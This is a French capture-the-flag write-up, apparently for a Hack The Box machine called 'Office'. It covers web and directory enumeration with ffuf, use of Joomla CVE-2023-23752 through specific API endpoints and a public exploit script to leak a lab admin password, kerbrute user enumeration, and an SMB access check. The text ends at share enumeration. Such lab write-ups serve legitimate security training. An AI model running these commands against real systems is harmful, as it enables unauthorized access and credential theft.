 Sous le port 80, on retrouve un blog en lien avec Iron Man, Tony Stark peut également être un utilisateur intéressant pour la suite.

![[80-site.png]]

Au niveau de la techstack, on retrouve

![[80-techstack.png]]

- Enumération du CMS avec Joomscan -> rien.
- Enumération des répertoires et fichiers avec ffuf :

```
ffuf -c -w `fzf-wordlists` -u "http://office.htb/FUZZ" -e .php
```

- http://office.htb/administrator/ -> interface de connexion au panel d'admin
- http://office.htb/phpmyadmin -> forbidden 403
- http://office.htb/api/ -> API
- https://office.htb/cli/ -> forbidden 403
- plein d'autres, on y reviendra plus tard si besoin.

Enumération des sous-domaines :

```
ffuf -c -w `fzf-wordlists` -H "Host: FUZZ.office.htb" -u "http://office.htb/"
```

C'est relativement lent, on y reviendra plus tard.

En faisant des recherches, on retrouve que Joomla est vulnérable à la [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752). Elle permet d'abuser d'un contrôle accès incorrect pour accéder aux endpoints des services web.

Détails techniques : https://xz.aliyun.com/t/12175?time__1311=mqmhD5DK7IejhDBdPx2DUo1DcWoUP4jex&alichlgref=https%3A%2F%2Fvulncheck.com%2F

- /api/index.php/v1/users?public=true -> pour les usernames
- /api/index.php/v1/config/application?public=true -> pour les passwords

On peut utiliser cet [outil](https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT) sur Github pour retrouver des creds `Administrator:H0lOgrams4reTakIng0Ver754!`.

`python3 CVE-2023-23752.py -u http://office.htb`

![[80-password.png]]

Utilisation de kerbrute pour retrouver des utilisateurs potentiels

`kerbrute userenum -d "office.htb" usernames.txt --dc dc.office.htb`

![[kerbrute.png]]

On peut voir que ce compte `office.htb\dwolfe` possède des accès en SMB

![[nxc-password sprying.png]]

Enumération des partages
